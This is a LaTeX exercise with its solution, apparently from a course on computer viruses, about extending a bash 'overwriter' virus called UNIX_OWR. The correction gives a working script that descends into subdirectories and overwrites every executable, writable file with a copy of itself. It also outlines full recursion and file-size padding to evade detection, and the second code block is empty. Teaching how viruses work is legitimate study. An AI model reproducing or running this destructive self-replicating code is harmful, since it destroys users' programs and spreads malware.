 \documentclass[a4paper,11pt]{article}
\theoremstyle{plain}
\theoremstyle{definition}
\newtheorem{exercice}{Exercise}
\begin{document}
\begin{exercice}[Improving the \texttt{UNIX\_OWR} virus]$\;$

\begin{enumerate}
\item Modify the \texttt{UNIX\_OWR} virus so that its action extends to subdirectories and only targets executable files, other than the currently infecting file. 
\item How can we counter the uniformity of file sizes after infection?
\end{enumerate}
\end{exercice}


\begin{correction}
\begin{enumerate}
\item The following code answers the question. 
We only descend one level into subdirectories.
\begin{verbatim}
#!/bin/bash

#Overwriter I
for file in *; do #for every file
    if [ -d $file ]; then # if we encounter a directory
       cd $file #we move into this directory
       for file1 in *; do #for every file du repertoire
	   if [ -x $file1 -a -w $file1 ]; then
               cp "../$0" $file1 #overwrite target file with virus
	   fi
       done
       cd ..
    fi
    echo $file
    name1=$(basename $0)
    name2=$(basename "./$file")
    echo "$name1 != $name2 ??"
    if [ "$name1" != "$name2" ]
    then
	echo "oui pour $name2"
	if [  -x $file -a -w $file ]; then
	    echo "cp $0 $file"
            cp $0 $file #overwrite target file with virus
	fi
    fi
done
\end{verbatim}

If we wanted to infect the entire file tree of the directory (subdirectories, sub-subdirectories, etc.), we would need to use a recursive function, with copying done from the absolute path containing the infecting file.


\item  The technique used here is to add the line \texttt{echo \"adding padding lines\"} to maintain the same number of lines as in the original file.


\begin{verbatim}
#!/bin/bash


\end{verbatim}
\end{enumerate}
\end{correction}
\end{document}
